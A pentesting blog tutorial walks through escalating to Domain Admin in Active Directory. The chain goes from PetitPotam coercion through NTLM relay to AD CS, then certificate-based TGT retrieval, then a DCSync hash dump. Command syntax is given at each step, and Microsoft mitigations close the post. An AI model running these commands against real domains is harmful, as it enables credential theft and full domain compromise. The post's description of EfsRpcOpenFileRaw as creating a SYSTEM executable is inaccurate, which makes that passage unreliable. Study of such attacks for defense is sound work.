 ```yaml
---
layout: post
title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
date: "2025-04-25"
authors: ["joao_paulo_assis"]
categories: ["Pentesting", "Red Team", "Hacking", "Active Directory"]
description:
thumbnail: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
image: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
comments: false

meta_title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
meta_description:
meta_image: "/assets/images/posts/joao-paulo/2/petit_potam_tiny.png"
---
```


Today, we’re going to discuss a vulnerability that has been known for some time, yet continues to be a thorn in the side of many domain administrators: the notorious <strong>PetitPotam</strong>.

But what exactly is this vulnerability? It’s a flaw associated with the <strong>MS-EFSRPC</strong> protocol (Microsoft Encrypting File System Remote Protocol, which is a Remote Procedure Call interface used to manage encrypted data, enforcing access control policies and confidentiality against unauthorized access). When combined with an NTLM Relay attack, this vulnerability allows an attacker to force a Domain Controller (DC) to authenticate to a listener under the attacker’s control. The attacker can then relay these credentials to another target—most commonly to AD CS (Active Directory Certificate Services). As a result, the attacker can obtain a certificate issued by the Domain Controller, which can then be used to request a Ticket Granting Ticket (TGT), thereby compromising the domain using the Pass-The-Ticket technique.

It’s worth noting that there are several other ways to combine this attack to exploit different flaws in Active Directory processes. However, the method I’ll be focusing on today is related to AD CS. AD CS is particularly interesting because it offers services and functionalities that, <strong>by default</strong>, accept NTLM-based authentication. These services specifically include the <strong>Certificate Authority Web Enrollment</strong> and the <strong>Certificate Enrollment Web Service</strong>.

Alright, let’s get straight to the point. First of all, how can this vulnerability be identified? Thanks to the great NetExec project, we have a module called PetitPotam at our disposal. This module essentially replicates the process carried out by the exploit, which involves performing an insufficient path check in the MS-EFSR protocol using the EfsRpcOpenFileRaw method. This method allows attackers to force the SYSTEM account to create an executable file of their choice, thereby granting local administrative privileges.

So, we can use the following command syntax:

> nxc smb $target-IP -u username -p password -M coerce_plus -o METHOD=PetitPotam

If the system is vulnerable, you’ll see a result similar to this:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/result-vulnerable.webp" alt="Result Vulnerable" %}
</center>

As we can see, it already provides us with the information on where to find the exploit to take advantage of this vulnerability — it can be found at
<a href="https://github.com/topotam/PetitPotam/" target="_blank">https://github.com/topotam/PetitPotam/</a>

Alright, now that we have the exploit in hand, we can move on to the next step, which is configuring ntlmrelayx to capture the authentication and relay it to the AD CS server. You can find ntlmrelayx in Fortra’s repository: <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py" target="_blank">https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py</a>

The ntlmrelayx configuration syntax will look something like this:

> python3 ntlmrelayx.py -debug -t http://adcs.alvo.com.br/certsrv/certfnsh.asp -smb2support — adcs — template DomainController

In place of adcs.alvo.com.br, you’ll need to specify the URL of your domain’s AD CS. I’m guessing you’d appreciate a tip on how to find that information—no worries, I’ve got you covered! :)

There are several ways to identify or enumerate AD CS. I’ll leave a link below with a variety of commands using both certutil and ldapsearch for that purpose—make good use of it!

{% include framework/shortcodes/link-preview.html
   link="https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates"
   title="ADCS PrivEsc: Certificate Templates"
   subtitle="Privilege escalation with Active Directory Certificate Services"
   domain="0xalwayslucky.gitbook.io"
%}

Now that we have this information, we can move on to executing our exploit with the goal of relaying the credentials to AD CS and obtaining our valuable base64-encoded PKCS#12 certificate in the name of the Domain Controller. The syntax for running the exploit would look something like this:

> python3 petitpotam.py $listener-ip $target-ip

<strong>Note: If you’re running this on a Windows machine, you may need to provide authentication to the exploit, which would look like this:</strong>

> python3 petitpotam.py -u username -p password -d domain $listener-ip $target-ip

What is <strong>$listener-ip?</strong> It refers to the IP address where the ntlmrelayx server is running. Keep in mind that this server must be able to communicate with both the Domain Controller and the AD CS. As for <strong>$target-ip</strong>, it refers to the IP address of the vulnerable Domain Controller that was identified during the CrackMapExec phase.

If the exploit runs successfully, you’ll receive something like this on your ntlmrelayx output:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/logs.webp" alt="LOGS" %}
</center>

Great — we now have our base64-encoded PKCS#12 certificate issued by AD CS in the name of the Domain Controller. So, what’s the next step? We need to obtain a TGT using this certificate. In many articles, tools like Kekeo, Rubeus, and Mimikatz are commonly used to carry out this stage of the attack, but there are other ways we can leverage this as well.

To obtain the TGT, I recommend using a tool called gettgtpkinit.py, which can be found in the following repository: <a href="https://github.com/dirkjanm/PKINITtools" target="_blank">https://github.com/dirkjanm/PKINITtools</a>

The syntax will look something like this:

> python3 gettgtpkinit.py domain/username -pfx-base64 (certificate) dc.ccache

Keep in mind that the username should be the user the certificate is linked to—in the example above, that would be <strong>DC-101$</strong>. And where it says (certificate), you’ll replace it with the base64 string that was generated. Once executed, you’ll then have your TGT—in this case, saved as dc.ccache.

With the TGT in hand, there are a number of actions you can now perform within Active Directory. However, to complete our objective of becoming a Domain Admin, we can carry out a DCSync attack. In short, a DCSync attack is an exploitation technique that allows an attacker to mimic the behavior of a Domain Controller (DC) on a network and request password information from other Domain Controllers. This is done through Active Directory replication—a process normally used to synchronize account and password data between Domain Controllers. The DCSync attack can be used to obtain password hashes of specific accounts, including administrator accounts, without requiring physical or administrative access to the target system.

We can use secretsdump to carry out the DCSync attack. To do this, we first need to export our TGT to the Kerberos authentication environment variable using the following command (for Linux machines):

> export KRB5CCNAME=dc.ccache

And the syntax would look something like this:

> python3 secretsdump.py -just-dc -debug -k -no-pass domain\username -outputfile DC.secretsdump

And watch the magic happen—from that point on, you’ll have access to all the password hashes of the domain’s users, including the hashes of the Domain Admins. With that, you can either attempt to crack the passwords and potentially view them in plain text, or alternatively, leverage techniques like Pass-the-Hash to access other services and processes across the network.

And after all, how can our fellow defenders of the realm — the Blue Teamers — mitigate this vulnerability?

There are several ways to mitigate it — some of them even recommended by Microsoft itself, such as:

1. Enable EPA (Extended Protection for Authentication) for Certificate Authority Web Enrollment — <strong>this is the most secure and recommended option</strong>;

2. Enable EPA for the Certificate Enrollment Web Service — <strong>again, the most secure and recommended option</strong>;

3. Enable <strong>“Require SSL,”</strong> which enforces HTTPS-only connections.

Additionally, it’s recommended to evaluate the use of the NTLM protocol across the entire environment. If it’s not necessary, the use of the protocol should be completely removed or disabled.

For more detailed information on mitigation, I recommend checking out the link below:

{% include framework/shortcodes/link-preview.html
   link="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?source=post_page-----851736c57870---------------------------------------"
   title="KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)"
   subtitle="Microsoft is aware of PetitPotam which can potentially be used to attack Windows domain controllers or other Windows servers."
   domain="support.microsoft.com"
%}
